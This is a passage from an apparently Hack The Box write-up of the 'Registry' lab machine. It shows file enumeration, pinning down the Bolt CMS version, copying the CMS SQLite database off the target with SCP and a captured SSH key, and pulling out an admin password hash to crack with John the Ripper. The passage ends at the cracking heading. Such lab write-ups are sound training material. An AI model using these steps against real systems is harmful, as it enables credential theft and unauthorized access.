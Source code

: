```

```
bolt@bolt:~$ find /var -type f -perm -o=r 2> /dev/null
/var/www/html/install/index.php
/var/www/html/bolt/
.
.
.
/var/www/html/bolt/.htaccess
.
.
.
/var/www/html/backup.php
/var/www/html/index.nginx-debian.html
/var/www/html/index.html
.
.
.
/var/backups/bolt.tgz
```

These files look like quite something and by looking at the changelog.md, we find Bolt related to Bolt CMS and its database uses SQLITE and stored in bolt/app/database/bolt.db.

```
bolt@bolt:/var/www/html/bolt$ cat changelog.md | grep Bolt
Changelog for Bolt 3.x
Bolt 3.6.4
 - Fixed asset url generation for Bolt install in subfolder. [#7725](https://github.com/bolt/bolt/pull/7725)

bolt@bolt:/var/www/html/bolt$ ls -ltr app/database/
total 288
-rw-r--r-- 1 www-data www-data 294912 Oct 21 10:41 bolt.db
```

The first lines gives us the version of Bolt so we can look at some exploits if needed, but we need to also move *bolt.db* locally to use SQLite Browser and find out what is in there.

Retrieve bolt.db using SCP.

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ scp -i /home/kali/Documents/HTB-Labs/Registry/2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791/root/.ssh/id_rsa bolt@registry.htb:/var/www/html/bolt/app/database/bolt.db
```

Once you retrieve it, open it locally SQLite Browser, try and see what items of interest like the users table could be found and if any create a new file containing the credentials found: sqlite_hash.lst.

![Registry_SQLite](/images/Registry_SQLite.png)

![Registry_SQLite_users](/images/Registry_SQLite_users.png)

See below the content of the file where I copied this hash along with this user:

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ cat sqlite_hash.lst 
admin:$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK
```

At this point, we should try and crack these credentials using *JohnTheRipper*:

### JOHNTHERIPPER
```